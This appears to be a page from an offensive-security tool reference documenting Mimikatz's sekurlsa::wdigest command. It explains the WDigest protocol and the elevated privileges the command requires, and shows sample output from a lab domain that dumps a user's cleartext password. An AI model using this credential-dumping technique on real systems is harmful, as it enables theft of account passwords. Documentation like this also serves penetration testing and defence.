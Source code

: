 # wdigest

It lists WDigest credentials. According to Microsoft, [WDigest.dll](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778868\(v%3dws.10\)) was introduced in the Windows XP operating system. The Digest Authentication protocol is designed for use with Hypertext Transfer Protocol (HTTP) and Simple Authentication Security Layer (SASL) exchanges, as documented in RFCs [2617](https://datatracker.ietf.org/doc/html/rfc2617) and [2831](https://datatracker.ietf.org/doc/html/rfc2831).

{% hint style="warning" %}
This command requires elevated privileges (by previously running [`privilege::debug`](../privilege/debug.md) or by executing Mimikatz as the `NT-AUTHORITY\SYSTEM` account).
{% endhint %}

```
mimikatz # sekurlsa::wdigest

Authentication Id : 0 ; 135255778 (00000000:080fd6e2)
Session           : RemoteInteractive from 3
User Name         : m3g9tr0n
Domain            : hacklab
Logon Server      : DC
Logon Time        : 9/27/2021 1:22:05 PM
SID               : S-1-5-21-2725560159-1428537199-2260736313-1730
        wdigest :
         * Username : m3g9tr0n
         * Domain   : hacklab
         * Password : Super_SecretPass1!
```
